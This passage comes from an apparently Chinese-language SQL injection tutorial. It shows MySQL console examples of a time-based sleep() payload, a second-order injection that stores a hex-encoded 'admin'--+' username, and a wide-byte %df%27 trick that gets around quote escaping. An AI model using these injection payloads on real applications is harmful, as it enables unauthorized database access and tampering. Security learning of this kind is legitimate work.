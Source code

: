 ```

mysql> update admin set id="5"+sleep(5)+"" where id=2;
Query OK, 4 rows affected (20.00 sec)
Rows matched: 4  Changed: 4  Warnings: 0
```







## 二次注入

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220119175625531.png)

二次注入的语句：在没有被单引号包裹的sql语句下，我们可以用16进制编码，这样就不会带有单引号等。

```

mysql> insert into admin (id,name,pass) values ('3',0x61646d696e272d2d2b,'11');
Query OK, 1 row affected (0.00 sec)

mysql> select * from admin;
+----+-----------+-------+
| id | name      | pass  |
+----+-----------+-------+
|  1 | admin     | admin |
|  2 | admin'111 | 11111 |
|  3 | admin'--+ | 11    |
+----+-----------+-------+
4 rows in set (0.00 sec)
```







## 宽字节注入

宽字节注入：针对目标做了一定的防护，单引号转变为 `\'` , mysql 会将 `\` 编码为 `%5c` ，宽字节中两个字节代表一个汉字，所以把 `%df` 加上 `%5c` 就变成了一个汉字“運”，使用这种方法成功绕过转义，就是所谓的宽字节注入

```bash
id=-1%df' union select...
#没使用宽字节%27 -> %5C%27
#使用宽字节%df%27 -> %df%5c%27 -> 運'
```





## 文件操作

### 读文件
